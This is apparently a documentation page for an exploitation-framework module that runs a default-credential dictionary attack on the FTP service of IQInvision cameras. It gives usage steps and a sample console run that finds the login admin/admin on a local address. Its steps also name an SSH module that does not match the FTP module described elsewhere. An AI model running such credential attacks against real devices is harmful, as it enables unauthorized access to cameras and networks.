 ## Description

Module performs dictionary attack with default credentials against IQInvision Camera FTP service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use creds/cameras/iqinvision/ssh_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/cameras/iqinvision/ftp_default_creds
rsf (IQInvision Camera Default FTP Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (IQInvision Camera Default FTP Creds) > run
[*] Running module...
[*] Target exposes FTP service
[*] Starting attack against FTP service
[*] thread-0 thread is starting...
[-] Authentication Failed - Username: 'admin' Password: '12345'
[-] Authentication Failed - Username: 'admin' Password: '123456'
[-] Authentication Failed - Username: 'Admin' Password: '12345'
[-] Authentication Failed - Username: 'Admin' Password: '123456'
[+] Authenticated Succeed - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 0.06290411949157715 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     21       ftp         admin        admin 

```
